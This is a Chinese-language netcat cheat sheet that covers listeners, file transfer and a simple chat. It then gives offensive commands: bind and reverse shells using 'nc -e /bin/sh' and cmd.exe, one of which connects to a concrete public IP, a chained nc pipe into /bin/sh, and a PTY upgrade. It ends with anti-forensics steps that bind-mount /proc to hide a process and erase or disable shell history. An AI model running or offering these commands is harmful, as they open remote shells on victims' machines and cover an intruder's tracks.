

# nc开启监听端口

```
nc -lvvp 8083 
```

- `-l`：这个选项告诉Netcat在监听模式下运行，即等待来自客户端的连接请求。

- `-v`：这个选项启用详细的输出，以便在命令执行时显示更多信息。

- `-p `：指定要监听的端口号。


# nc传输数据

```
接收方：nc -l -p 8888 > 1.txt

发送方：nc 192.168.2.28 8888 < 1.txt
```

- `-l`：监听模式，告诉 `nc` 监听传入的连接。
- `-p `：指定要监听的端口号。


# nc传输文件

```
接收方：nc -l -v -p 9999 | tar -xzvf - 

发送方：tar -czvf - test666 | nc -v 192.168.1.116 9999
```

- `tar -xzvf -`：这部分命令使用 `tar` 实用程序来解压缩（`-x`）和解压缩（`-z`）tar归档文件。以下是每个选项的含义：

  - `-x`：解压缩模式。
  - `-z`：使用gzip压缩算法解压缩归档文件。
  - `-v`：详细模式，提供更详细的输出。
  - `-f -`：指定输入tar归档文件将从标准输入（`-`）读取。

- `tar -czvf - test666`：这部分命令使用 `tar` 实用程序来创建一个名为 `test666.tar.gz` 的 tar 归档文件，并将其输出到标准输出（`-`）。以下是每个选项的含义：

  - `-c`：创建新的归档文件。
  - `-z`：使用 gzip 压缩算法来压缩文件。
  - `-v`：详细模式，提供更详细的输出。
  - `-f -`：指定输出文件名为标准输出（`-`）。

  

# nc简易实时聊天

```
接收方：nc -l -p 7777

发送方：nc -nv 192.168.1.211 7777
```

`-nv`：这些是nc命令的选项（参数）：

- `-n`：表示不进行DNS解析，直接使用IP地址进行连接，这可以提高连接速度。
- `-v`：表示启用详细模式，会显示更多的信息，包括连接的状态和交互信息。


# nc正向反弹shell（内网之间）

```
服务端：
nc -lvvp 444 -e /bin/sh							 //Linux  nc命令
nc.exe -lvvp 444 -e c:\windows\system32\cmd.exe       //windows nc命令

攻击端：
nc 192.168.x.x 444
```


# nc反向反弹shell（外网连接内网）

```
服务端
nc 139.159.221.73 999 -e /bin/sh
nc.exe 139.159.221.73 999 -e c:\windows\system32\cmd.exe

攻击端：
nc -lvvp 999
```

内>外：正

内>内：皆可（推荐反）

外>外：皆可（推荐反）

外>内：反


# nc串联

```
服务端
nc 10.0.0.14 5555 | /bin/sh | nc 10.0.0.14 6666  	//nc串联

攻击端
nc -lnvp 5555										//5555端输入命令
nc -lnvp 6666										//6666端输出命令
```


# 提升为交互式

```
python -c 'import pty;pty.spawn("/bin/bash")'
```


# 让进程删不掉（linux）


弹shell成功后

```
netstat -anodp|grep 9595
```

查看进程PID

```
mkdir null										//创建进程
mount --bind /proc/2705 null					//绑定进程在null目录
```



```
umount null										//解除绑定在目录的进程
```


# 删除所有操作历史记录


```
for i in $(seq 1 100);do history -d 1;done
```

>  删除所有历史记录（100条）


```
set +o history										//设置历史记录不在记录
set -o history										//解除历史记录不在记录
```

